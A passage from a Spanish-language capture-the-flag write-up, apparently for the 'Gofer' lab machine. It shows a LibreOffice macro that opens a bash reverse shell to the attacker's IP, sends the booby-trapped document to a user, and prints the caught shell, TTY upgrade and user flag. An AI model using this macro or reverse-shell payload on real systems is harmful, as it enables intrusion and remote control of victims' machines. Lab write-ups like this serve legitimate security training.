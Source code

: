 Asumiendo que puede estar intentando descargar un documento LibreOffice ya que estos solo se envian por interno como leímos anteriormente, podemos crearnos uno con el siguiente Macro:

```vb
Sub Main
   Shell("bash -c 'bash -i >& /dev/tcp/10.10.14.155/443 0>&1'")
End Sub
```

Enviando el enlace con el documento a la persona, esta intenta cargarlo y se ejecuta el Macro que colocamos, haciendo que nos devuelva una reverse shell al servidor

```bash
❯ nc -nvlp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.225 50180
bash: cannot set terminal process group (17663): Inappropriate ioctl for device
bash: no job control in this shell
bash: /home/jhudson/.bashrc: Permission denied
jhudson@gofer:/usr/bin$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
jhudson@gofer:/usr/bin$ ^Z
[1]  + 14031 suspended  nc -nvlp 443
❯ stty raw -echo; fg
[1]  + 14031 continued  nc -nvlp 443
                                    reset xterm
jhudson@gofer:/usr/bin$ export TERM=xterm-256color
jhudson@gofer:/usr/bin$ stty rows 34 columns 149
jhudson@gofer:/usr/bin$
```

En el directorio de esta usuaria, podremos ver la primera flag

```bash
jhudson@gofer:~$ ls -la
total 48
drwxr-xr-x 7 jhudson jhudson 4096 Oct 27 19:54 .
drwxr-xr-x 6 root    root    4096 Jul 19 12:44 ..
lrwxrwxrwx 1 root    root       9 Nov  3  2022 .bash_history -> /dev/null
-rw-r--r-- 1 jhudson jhudson  220 Oct 28  2022 .bash_logout
-rw-r--r-- 1 jhudson jhudson 3526 Oct 28  2022 .bashrc
drwxr-xr-x 4 jhudson jhudson 4096 Jul 19 12:44 .cache
drwx------ 3 jhudson jhudson 4096 Jul 19 12:44 .config
drwxrwxrwx 2 jhudson jhudson 4096 Oct 27 19:53 Downloads
drwx------ 3 jhudson jhudson 4096 Jul 19 12:44 .gnupg
drwxr-xr-x 3 jhudson jhudson 4096 Oct 27 19:54 .local
-rw-r--r-- 1 jhudson jhudson  807 Oct 28  2022 .profile
-rw-r----- 1 root    jhudson   33 Oct 27 06:04 user.txt
-rw-r--r-- 1 jhudson jhudson   39 Jul 17 16:56 .vimrc
jhudson@gofer:~$ cat user.txt
91257017b3b3dbefc97aab59b3******
```

## Escalada de privilegios
